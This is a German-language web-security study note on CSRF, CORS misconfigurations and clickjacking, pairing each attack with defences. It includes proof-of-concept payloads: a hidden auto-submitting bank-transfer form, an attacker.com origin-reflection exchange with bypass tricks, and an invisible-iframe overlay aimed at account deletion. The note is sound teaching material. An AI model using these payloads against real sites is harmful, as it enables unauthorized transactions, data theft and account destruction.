

---
tags:
  - Security
  - Web Security
  - Client-Side
  - CSRF
  - CORS
  - Clickjacking
  - OWASP
---

# Client-Side Angriffe: CSRF, CORS-Misconfigurations & Clickjacking

Client-Side Angriffe nutzen das Vertrauen aus, das eine Webanwendung in den Browser eines authentifizierten Benutzers setzt.

---

## 1. Cross-Site Request Forgery (CSRF)

Bei einem CSRF-Angriff verleitet ein Angreifer das Opfer dazu, unbemerkt eine zustandsverändernde HTTP-Anfrage (z. B. Passwortänderung, E-Mail-Änderung, Geldüberweisung) an eine Zielanwendung zu senden, bei der das Opfer aktuell eingeloggt ist.

```mermaid
graph TD
    Attacker["Angreiferseite: attacker.com"] -->|1. Opfer besucht Seite| Victim["Browser des Opfers"]
    Victim -->|2. Unsichtbares Form.submit() mit Ziel target.com| Target["Zielserver: target.com"]
    Victim -.->|3. Browser hängt Session-Cookie automatisch an!| Target
    Target -->|4. E-Mail wird geändert| Target

    style Attacker fill:#f44336,stroke:#fff,stroke-width:2px,color:#fff
    style Victim fill:#3f51b5,stroke:#fff,stroke-width:2px,color:#fff
    style Target fill:#009688,stroke:#fff,stroke-width:2px,color:#fff
```

### Typischer Exploit (PoC in Burp Suite generierbar)
Der Angreifer hostet ein HTML-Dokument mit verstecktem Auto-Submit-Formular:
```html
<form action="https://vulnerable-bank.com/api/transfer" method="POST" id="csrfForm">
  <input type="hidden" name="recipient" value="attacker_account" />
  <input type="hidden" name="amount" value="5000" />
</form>
<script>document.getElementById('csrfForm').submit();</script>
```

### Abwehrmaßnahmen:
1. **Anti-CSRF Tokens:** Ein kryptografisch zufälliges, an die Session gebundenes Token muss bei jedem POST-Request im Body oder Header mitgesendet werden. Ein Angreifer kann dieses Token wegen der Same-Origin Policy (SOP) nicht auslesen.
2. **`SameSite=Lax` oder `Strict`:** Verhindert das automatische Mitsenden von Cookies bei Cross-Site Requests.

---

## 2. CORS-Fehlkonfigurationen (Cross-Origin Resource Sharing)

Während CSRF Aktionen **ausführt**, erlaubt eine unsichere CORS-Konfiguration dem Angreifer, sensible Daten aus dem Account des Opfers **auszulesen** (z. B. private Nachrichten, API-Keys).

### Das "Blind Reflection" Anti-Pattern
Viele Entwickler möchten mehreren Subdomains Zugriff gewähren, prüfen den `Origin`-Header aber fehlerhaft:

**Anfrage des Angreifers:**
```http
GET /api/account/details HTTP/1.1
Host: target.com
Origin: https://attacker.com
Cookie: session=secret123
```

**Unsichere Antwort des Servers:**
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://attacker.com
Access-Control-Allow-Credentials: true
```

Da `Access-Control-Allow-Credentials: true` gesetzt ist und der Origin gespiegelt wird, darf JavaScript auf `attacker.com` via `fetch()` die Kontodaten im Klartext abgreifen!

### Typische Bypasses bei Regex-Fehlern:
- **Präfix-Fehler:** Erlaubt `target.com` $\implies$ Angreifer registriert `not-target.com`.
- **Suffix-Fehler:** Erlaubt `api.target.com` $\implies$ Angreifer nutzt `attacker.com/api.target.com`.
- **Null-Origin:** Manche Server erlauben `Origin: null` (z. B. für lokale Dateien oder Sandboxed Iframes):  
  `<iframe sandbox="allow-scripts allow-top-navigation" src="...">` sendet `Origin: null`.

---

## 3. Clickjacking (UI-Redressing)

Beim Clickjacking überlagert der Angreifer eine legitime Zielseite transparent über eine scheinbar harmlose Seite (z. B. ein Spiel oder Gewinnspiel).



### Exploit-Aufbau
```html
<style>
  iframe {
    position: absolute;
    top: 50px; left: 100px;
    opacity: 0.001; /* Unsichtbar */
    z-index: 2;
  }
  button {
    position: absolute;
    top: 50px; left: 100px;
    z-index: 1; /* Sichtbar */
  }
</style>
<button>Klick hier für Belohnung!</button>
<iframe src="https://target.com/settings/delete-account"></iframe>
```

### Abwehrmaßnahmen:
1. **CSP `frame-ancestors`:** Der moderne Standard, um das Einbetten in Iframes zu verbieten:
   `Content-Security-Policy: frame-ancestors 'none';` (oder `'self'`).
2. **Legacy-Header:** `X-Frame-Options: DENY` oder `SAMEORIGIN`.
